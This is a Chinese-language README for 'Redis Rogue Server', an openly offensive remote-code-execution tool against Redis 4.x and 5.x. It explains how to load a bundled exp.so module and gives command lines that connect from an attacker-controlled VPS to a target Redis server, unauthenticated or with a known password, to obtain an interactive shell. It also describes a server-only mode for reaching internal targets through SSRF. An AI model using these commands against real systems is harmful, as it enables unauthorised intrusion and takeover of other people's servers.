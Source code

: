 # Redis Rogue Server

Redis 4.x/Redis 5.x RCE利用脚本, 涉及技术点可参考 [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

经测试Redis 5.0.8也可以使用，没有出现ppt上写的5.0无法set/get config的情况.

## Usage:

编译.so模块, 代码: <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

将.so与 `redis-rogue-server.py`放置在同一目录下

项目自带了一个编译好的的exp.so文件, 可直接使用

### 主动连接模式

适用于目标Redis服务处于外网的情况
- 外网Redis未授权访问
- 已知外网Redis口令

启动redis rogue server，并主动连接目标redis服务发起攻击

```bash
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

参数说明：
- `--rpasswd` 如果目标Redis服务开启了认证功能，可以通过该选项指定密码
- `--rhost` 目标redis服务IP
- `--rport` 目标redis服务端口，默认为6379
- `--lhost` vps的外网IP地址
- `--lport` vps监控的端口，默认为21000

攻击成功之后，你会得到一个交互式shell

### 被动连接模式

适用于目标Redis服务处于内网的情况
- 通过SSRF攻击Redis
- 内网Redis未授权访问/已知Redis口令, Redis需要反向连接redis rogue server

这种情况下可以使用`--server-only`选项

```bash
python3 redis-rogue-server.py --server-only
```

参数说明：
- `--server-only` 仅启动redis rogue server, 接受目标redis的连接，不主动发起连接